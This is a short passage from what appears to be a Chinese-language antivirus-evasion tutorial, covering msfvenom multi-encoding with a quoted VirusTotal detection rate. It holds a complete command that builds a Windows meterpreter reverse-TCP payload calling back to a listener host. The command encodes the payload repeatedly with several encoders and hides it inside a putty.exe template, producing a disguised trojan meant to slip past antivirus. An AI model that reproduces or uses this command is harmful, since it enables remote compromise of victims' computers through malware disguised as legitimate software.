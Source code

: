 看来稍微组合一下是能过更多的杀软的。后面会介绍更多的免杀方法，自己可以尝试多种免杀进行组合，垒积木一样的感觉...

## 7.5 msfvenom多重编码(VT查杀率45/70)

操作便利★★★★

免杀效果★★

推荐指数★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让`msfvenom`对攻击载荷多重编码，先用`shikata_ga_nai`编码20次，接着来10次的`alpha_upper`编码，再来10次的`countdown`编码，最后才生成以`putty.exe`为模板的可执行文件。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=10.211.55.2 LPORT=3333 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x putty.exe -f exe -o payload5.exe
```

